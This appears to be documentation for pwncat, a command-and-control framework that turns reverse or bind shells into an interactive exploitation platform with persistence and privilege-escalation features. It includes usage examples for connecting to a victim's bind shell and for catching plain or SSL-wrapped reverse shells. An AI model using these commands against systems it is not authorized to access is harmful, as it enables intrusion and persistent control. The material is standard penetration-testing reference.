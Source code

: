 pwncat is a [command and control]() framework which turns a basic [reverse shell]() or [bind shell]() into a fully-featured exploitation platform. After initial connection, the framework will probe the remote system to identify useful binaries natively available on the target system. It will then attempt to start a pseudoterminal on the remote host and provide you with raw terminal access.

On top of raw terminal access, pwncat can programmatically interact with the remote host alongside your terminal access. pwncat provides you with a local shell interface which can utilize your connection for enumeration, file upload/download, automatic persistence installation and even automated privilege escalation.

There are two main operating modes while interacting with a victim in pwncat: remote and local. At any given time, the prompt will include either `(local)` or `(remote)` to indicate the current mode. When using local mode, you have access to pwncat-specific commands such as upload, download, use, run and exit. In remote mode, you will have access to a platform-specific shell environment (e.g. bash or powershell).

To toggle between these modes, you can use the `C-d` key combination. This combination is intercepted by pwncat before being sent to the target when in remote mode. If you need to send a `C-d` combination directly to the target, you can use the `C-k` prefix. Prefixing `C-d` or `C-k` with `C-k` will tell pwncat to send the literaly `C-d` or `C-k` sequence to the target.

Some examples of its usage:

```bash
# netcat syntax
pwncat-cs 192.168.1.1 4444
# Full connection string
pwncat-cs connect://192.168.1.1:4444
# Connection string with assumed protocol
pwncat-cs 192.168.1.1:4444
```

!!! info
    In this case, the victim is running a raw bind shell on an open port. The victim must be available at an address which is routable.

You can also connect to a victim encrypted bind shell:

```bash
# Full connection string
pwncat-cs connect://192.168.1.1:4444
# ncat style syntax
pwncat-cs --ssl 192.168.1.1 4444
pwncat-cs --ssl 192.168.1.1:4444
```

!!! info
    In this case, the victim is running a ssl-wrapped bind shell on an open port. The victim must be available at an address which is routable (e.g. not NAT’d). The `ssl-connect` protocol provides this capability.

Or you can catch a victim rev shell:

```bash
# netcat syntax
pwncat-cs -lp 4444
# Full connection string
pwncat-cs bind://0.0.0.0:4444
# Assumed protocol
pwncat-cs 0.0.0.0:4444
# Assumed protocol, assumed bind address
pwncat-cs :4444
```

!!! info
    In this case, the victim was exploited in such a way that they open a connection to your attacking host on a specific port with a raw shell open on the other end. Your attacking host must be routable from the victim machine. This mode is accessed via the `bind` protocol.

Or even catch a victim encrypted rev shell:

```bash
# ncat style syntax
pwncat-cs --ssl --ssl-cert cert.pem --ssl-key cert.pem -lp 4444
# Full connection string
pwncat-cs ssl-bind://0.0.0.0:4444?certfile=/path/to/cert.pem&keyfile=/path/to/key.pem
# Auto-generated self-signed certificate
pwncat-cs --ssl -lp 4444
# Auto-generated self-signed certificate with explicit protocol
pwncat-cs ssl-bind://0.0.0.0:4444
```

!!! info
    In this case, the victim was exploited in such a way that they open an ssl connection to your attacking host on a specific port with a raw shell open on the other end. Your attacking host must be routable from the victim machine. This mode is accessed via the `ssl-bind` protocol.


